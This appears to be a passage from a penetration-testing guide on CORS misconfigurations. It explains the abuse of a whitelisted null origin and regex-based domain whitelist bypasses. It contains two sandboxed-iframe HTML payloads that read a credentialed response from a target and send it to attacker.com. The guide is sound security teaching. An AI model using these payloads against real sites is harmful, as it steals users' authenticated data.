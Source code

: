 ### Exploiting the `null` Origin

The `null` origin, specified for situations like redirects or local HTML files, holds a unique position. Some applications whitelist this origin to facilitate local development, inadvertently allowing any website to mimic a `null` origin through a sandboxed iframe, thus bypassing CORS restrictions.

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://example/details',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://example/details',true);
  req.withCredentials = true;
  req.send();
  function reqListener() {
    location='https://attacker.com//log?key='+encodeURIComponent(this.responseText);
  };
</script>"></iframe>
```

### Regular Expression Bypass Techniques

When encountering a domain whitelist, it's crucial to test for bypass opportunities, such as appending the attacker's domain to a whitelisted domain or exploiting subdomain takeover vulnerabilities. Additionally, regular expressions used for domain validation may overlook nuances in domain naming conventions, presenting further bypass opportunities.

### Advanced Regular Expression Bypasses

Regex patterns typically concentrate on alphanumeric, dot (.), and hyphen (-) characters, neglecting other possibilities. For example, a domain name crafted to include characters interpreted differently by browsers and regex patterns can bypass security checks. Safari, Chrome, and Firefox's handling of underscore characters in subdomains illustrates how such discrepancies can be exploited to circumvent domain validation logic.

**For more information and settings of this bypass check:** [**https://www.corben.io/advanced-cors-techniques/**](https://www.corben.io/advanced-cors-techniques/) **and** [**https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397**](https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397)

![https://miro.medium.com/v2/resize:fit:720/format:webp/1\*rolEK39-DDxeBgSq6KLKAA.png](<../.gitbook/assets/image (284).png>)
